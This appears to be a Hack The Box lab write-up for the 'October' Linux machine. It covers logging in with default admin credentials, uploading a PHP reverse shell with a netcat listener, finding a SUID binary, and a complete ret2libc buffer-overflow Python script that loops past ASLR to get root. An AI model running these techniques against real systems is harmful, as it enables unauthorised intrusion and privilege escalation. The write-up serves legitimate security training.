# October

## Info
  * IP : 10.10.10.16
  * OS : Linux
  * Difficulty: Medium

## System Enumeration
 
### Nmap



### Dirbuster



### WebPortal



#### Backend


## Exploitation
 
Trying the default user and password, i.e, `admin` and `admin`, we manage to get in and see that there is a media tab.  
This opens up the possibility of a reverse shell upload.  
Since the already uploaded file is in php5, I renamed my shell from php to php5, just to ensure that I'll be successful in uploading a shell.  



We create a netcat listener on our local machine using `nc -lvnp 1234`.  
Click on the uploaded file and view it.  

And voila! We have a shell.

### User Exposed

Simple enumeration let's us find `user.txt` and read it even though we are `www-data`.



## Privilege Escalation

Now, to obtain `root.txt`, we need to escalate our privileges to root.  

As a first step, I always use `find / -perm -4000 -type f 2>/dev/null` to find SUID binaries and luckily enough, we find `/usr/local/bin/ovrflw`.  
Running `ovrflw` tells us that it needs an input string.  
This can be exploited using a Ret2Lib Attack.  

To debug further, I downloaded the binary to my local machine using base64 conversions.  
  1. On host machine, base64 /usr/local/bin/ovrflw  
  2. Copy the output and store it in a file on your machine  
  3. Use `base64 -d <localfile.b64> > ovrflw`  
  4. chmod +x ovrflw  
  5. gdb ovrflw  

Using `pattern_create 200`, we create a unique pattern of 200 characters and pass it to ovrflw as argument  

  

Now we use `pattern_offset <segfault_address>` to find where the buffer overflow occured.

  

### Creating a payload

Now, to successfully perform ret2lib attack, we have to perform buffer overflow by passing it to the binary `ovrflw`.  

Required addresses:
  * System address
  * Exit address(which can be anything)
  * Address of /bin/sh

But first we have to check if ASLR is enabled. If ASLR is enabled our <libbase> address keeps on changing and if not, we can simply use the addresses as we obtain them.  

To check if ASLR is enabled, simply use `ldd /usr/local/bin/ovrflw` 2 to 3 times:

  

As can be observed from the screenshot, the libbase address changes everytime we use `ldd`.  

We will proceed to create our payload accordingly.  

Select any one of the addresses for libBase. I used the first one, i.e, `libbase = 0xb75c4000`
#### Getting Required Offsets

So we know that the libbase is at `/lib/i386-linux-gnu/libc.so.6`.  

To get our offsets, we are going to use the `readelf` command.  

Step 1: For system, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
	  
Step 2: For exit, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
	  
Step 3: For the offset of /bin/sh we have to use strings, i.e, `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`
	  

Now we have all our offsets, it's time to create a payload.  

#### Creating bufferOverflow.py

```
import subprocess,struct

libBase = 0xb75c4000
system_Off = 0x00040310
exit_Off = 0x00033260
binsh_Off = 0x00162bac

system_addr = struct.pack("<I", libBase + system_Off)
exit_addr = struct.pack("<I", libBase + exit_Off)
binsh_addr = struct.pack("<I",libBase + binsh_Off)

payload = “A”*112
payload += system_addr
payload += exit_addr
payload += binsh_addr

i =0
while True:
    i+=1
    print “Attempts: ” + str(i)
    subprocess.call(["/usr/local/bin/ovrflw", payload])
```

The reason we added a loop is because the `libc` address is constantly changing. Therefore, to ensure that we reach the right libc address, we keep on running our script.  

### Execution

Simply execute `python bufferOverflow.py`.  



And we are root:


